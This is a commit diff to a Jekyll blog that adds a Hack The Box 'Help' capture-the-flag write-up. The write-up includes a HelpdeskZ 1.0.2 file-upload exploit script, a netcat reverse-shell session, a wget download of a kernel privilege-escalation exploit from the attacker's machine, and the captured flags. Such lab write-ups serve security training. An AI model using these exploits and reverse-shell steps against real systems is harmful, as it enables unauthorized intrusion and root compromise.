

Before and after one commit to 1n4r1/1n4r1.github.io, a Jekyll site: the page built from _posts/2019-06-09-Hackthebox-Help-Writeup.md, in a window 1280 px wide and 1400 px high, scrolled down 8541 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
add 2019-06-09 help-writeup

```diff
--- a/_posts/2019-06-09-Hackthebox-Help-Writeup.md
+++ b/_posts/2019-06-09-Hackthebox-Help-Writeup.md
@@ -93,14 +93,14 @@ Gobuster v2.0.1              OJ Reeves (@TheColonial)
 
 ### 2. Getting User
 In /support, we can confirm <a href="https://github.com/evolutionscript/HelpDeskZ-1.0">"HelpdeskZ"</a> is running.
-![placeholder](https://inar1.github.io/public/images/2019-06-09/help_badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-06-09/2019-06-09-23-29-00.png)
 
 In /readme.html, we can see that the version of HelpdeskZ is "1.0.2"
-![placeholder](https://inar1.github.io/public/images/2019-06-09/help_badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-06-09/2019-06-09-23-29-16.png)
 
 By searchsploit, we can find a vulnerability of HelpdeskZ in Following page.<br>
 Sounds like we can upload arbitraty file.
-![placeholder](https://inar1.github.io/public/images/2019-06-09/help_badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-06-09/2019-06-09-23-29-53.png)
 {% highlight shell %}
 root@kali:~# searchsploit helpdeskz
 ----------------------------------------------------------------------------------------- ----------------------------------------
@@ -114,7 +114,7 @@ Shellcodes: No Result
 {% endhighlight %}
 
 However, when we try php file uploading, we get "File is not allowed"
-![placeholder](https://inar1.github.io/public/images/2019-06-09/help_badge.png)
+![placeholder](https://inar1.github.io/public/images/2019-06-09/2019-06-09-16-44-38.png)
 
 Then, try to look at the code of HelpdeskZ.
 <a href="https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php">"https://github.com/evolutionscript/HelpDeskZ-1.0/blob/master/controllers/submit_ticket_controller.php"</a>
@@ -153,6 +153,7 @@ Then, try to look at the code of HelpdeskZ.
 Followings are the important information.
 1. The file is uploaded to "/support/uploads/tickets/"
 2. time() is used to encode the filenames
+3. Even if it says "File is not allowed", we can still upload the php extension file.
 
 By sending a request to "Help", we can figure out this server is using GMT.
 {% highlight shell %}
@@ -164,9 +165,96 @@ Location: http://10.10.10.121/support/
 Content-Type: text/html; charset=iso-8859-1
 {% endhighlight %}
 
-We already have an exploit code on our kali linux. However, we need to modify the script a bit.
+We already have an exploit code on our kali linux. However, we need to modify the script a bit.<br>
+I've commented the line to be fixed and added a new line.
 {% highlight pytohn %}
+sabonawa@kali:~/work$ cat 40300.py
+#! /usr/bin/python
 
+import hashlib
+import time
+import sys
+import requests
+
+print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'
+
+if len(sys.argv) < 3:
+    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
+    sys.exit(1)
+
+helpdeskzBaseUrl = sys.argv[1]
+fileName = sys.argv[2]
+
+# currentTime = int((datetime.datetime.strptime(r.headers['date'], %a, %d %b %Y %H%M%S %Z) - datetime.datetime(1970,1,1)).total_seconds())
+currentTime = int(time.time())
+
+for x in range(0, 300):
+    plaintext = fileName + str(currentTime - x)
+    md5hash = hashlib.md5(plaintext).hexdigest()
+
+    url = helpdeskzBaseUrl+md5hash+'.php'
+    response = requests.head(url)
+    if response.status_code == 200:
+        print "found!"
+        print url
+        sys.exit(0)
+
+print "Sorry, I did not find anything"
+{% endhighlight %}
+
+Then, upload our php web reverse shell, launch nc and run the exploit.<br>
+![placeholder](https://inar1.github.io/public/images/2019-06-09/2019-06-09-23-30-54.png)
+{% highlight shell %}
+root@kali:~# nc -nlvp 443
+listening on [any] 443 ...
+connect to [10.10.14.3] from (UNKNOWN) [10.10.10.121] 45226
+Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
+ 13:00:57 up  5:15,  0 users,  load average: 0.00, 0.00, 0.00
+USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
+uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
+/bin/sh: 0: can't access tty; job control turned off
+$ id
+uid=1000(help) gid=1000(help) groups=1000(help),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare)
+{% endhighlight %}
+
+user.txt is in the home directory of user "help".
+{% highlight shell %}
+$ cat /home/help/user.txt
+bb8a7b36bdce0c61ccebaa173ef946af
 {% endhighlight %}
 
 ### 3. Getting Root
+The kernel of this machine has <a href="https://www.exploit-db.com/exploits/44298">privilege escalation.</a><br>
+By googling like "kernel 4.4.0.116 exploit", I could immediately find it.
+{% highlight shell %}
+$ uname -a
+Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
+{% endhighlight %}
+
+Then, launch simple http server and transfer it.<br>
+We have wget command on the target server.
+{% highlight shell %}
+$ pwd
+/tmp
+$ wget http://10.10.14.3/44298.c
+--2019-06-09 13:13:07--  http://10.10.14.3/44298.c
+Connecting to 10.10.14.3:80... connected.
+HTTP request sent, awaiting response... 200 OK
+Length: 6021 (5.9K) [text/plain]
+Saving to: '44298.c'
+
+     0K .....                                                 100%  414M=0s
+
+2019-06-09 13:13:07 (414 MB/s) - '44298.c' saved [6021/6021]
+{% endhighlight %}
+
+After that, what we have to do is just compiling and executing.
+{% highlight shell %}
+$ gcc -o exploit 44298.c
+$ ./exploit
+
+id
+uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),33(www-data),46(plugdev),114(lpadmin),115(sambashare),1000(help)
+cat /root/root.txt
+b7fe6082dcdf0c1b1e02ab0d9daddb98
+{% endhighlight %}
```
Also changed, not shown: public/images/2019-06-09/2019-06-09-16-44-38.png (added), public/images/2019-06-09/2019-06-09-23-29-00.png (added), public/images/2019-06-09/2019-06-09-23-29-16.png (added), public/images/2019-06-09/2019-06-09-23-29-53.png (added), public/images/2019-06-09/2019-06-09-23-30-54.png (added).
